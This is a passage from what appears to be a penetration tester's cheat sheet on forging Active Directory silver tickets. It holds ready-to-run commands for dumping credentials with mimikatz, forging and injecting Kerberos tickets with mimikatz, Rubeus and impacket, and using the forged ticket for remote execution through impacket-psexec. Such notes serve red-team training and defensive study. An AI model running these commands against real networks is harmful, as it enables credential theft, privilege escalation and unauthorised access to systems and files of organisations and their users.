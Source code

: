 That means that an attacker with the SPN password (see [Kerberoasting](#5.2.4%20Kerberoasting)) or its NTLM hash can forge a service ticket for any user with whatever group memberships and permissions the attacker desires, and the SPN will commonly blindly trust those permissions rather than verify them with the DC.

We need to collect the following three pieces of information to create a silver ticket:

- SPN password hash (can get with mimikatz when SPN has session on your computer)
- Domain SID (extract from user SID)
- Target SPN

More info: [HackTricks - Silver Ticket](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket)

Getting prerequisite info:

```powershell
# use mimikatz to get SPN NTLM hash
mimikatz.exe
> privilege::debug
> sekurlsa::logonpasswords

# mimikatz one line
mimikatz.exe "token::elevate" "privilege::debug" "sekurlsa::logonpasswords" exit

# extract the Domain SID from the user SID (everything but RID, numbers after last dash)
whoami /user

# list SPNs from specific host
setspn -l HOSTNAME
# example for IIS server: HTTP/web04.corp.com:80
```

Create silver ticket (you can use any valid username):

```powershell
# in mimikatz:
# /ptt - pass the ticket; auto-injects it into memory
kerberos::golden /sid:S-1-5-... /domain:DOMAIN /ptt /target:SERVER_FQDN /service:http /rc4:NTLM_HASH /user:ADMIN_USER

# TODO: figure out how to do this with Rubeus.exe
# Rubeus lets you ask for tickets for all services at once:
# /altservice:host,rpcss,http,wsman,cifs,ldap,krbtgt,winrm
.\Rubeus.exe silver /rc4:NTHASH /user:USERNAME /service:SPN /ldap /ptt [/altservice:host,rpcss,http,wsman,cifs,ldap,krbtgt,winrm] [/nofullpacsig] [outfile:FILENAME]

# Kali: get SIDs with crackmapexec
crackmapexec ldap DC_FQDN -u USERNAME -p PASSWORD -k --get-sid

# Kali: use impacket
# Service is something like http, cifs, host, ldap, etc. (cifs lets you access files)
impacket-lookupsid DOMAIN/USERNAME:PASSWORD@VICTIM
impacket-ticketer -nthash NTHASH -domain-sid S-1-5-21-.... -domain DOMAIN -spn SERVICE/VICTIM_FQDN USERNAME
export KRB5CCNAME=$(pwd)/USERNAME.ccache 
impacket-psexec DOMAIN/USERNAME@VICTIM -k -no-pass
```
